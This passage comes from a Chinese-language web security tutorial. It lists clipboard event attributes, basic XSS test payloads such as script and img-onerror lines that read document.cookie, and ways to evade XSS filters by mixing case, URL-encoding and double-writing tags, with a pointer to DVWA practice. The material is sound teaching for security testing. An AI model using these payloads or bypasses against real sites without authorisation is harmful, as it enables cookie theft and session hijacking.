剪贴板事件

| 属性    | 描述                           |
| ------- | ------------------------------ |
| oncopy  | 该事件在用户拷贝元素内容时触发 |
| oncut   | 该事件在用户剪切元素内容时触发 |
| onpaste | 该事件在用户粘贴元素内容时触发 |







## 三 常用xss语句

### 3.1 xss的常用语句

测试XSS漏洞最基本的语句如下：

```
<script>alert(1)</script>
<script>alert(document.cookie)</script>
 <img src=x onerror=alert(document.cookie)>
 <svg onload=alert(document.cookie)>
 <a href=javascript:alert(document.cookie)>
```

当然，许多程序对这些常见标签都做了过滤，然而我们在DVWA中也见识到了不合理、不彻底的过滤。

面对过滤有几种基本的思路。

1.避开过滤关键字，实现同样效果。

具体在XSS语句中，可以通过替换标签，替换元素内容来实现。对html和JavaScript了解越多，就越能找到可替换的代码。

2.通过某种混淆来实现绕过过滤。

如大小写绕过。

```
<ScRiPt> alert(1) </ScRiPt>
```

如编码绕过，如url编码：

```
%3c%53cript%3e alert(1) %3c%2f%53cript%3e
```

如双写绕过：

```
<scr<script>ipt>alert(1)</scr</script>ipt>
```

更多的可能性可阅读如下链接内容：

```
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
```

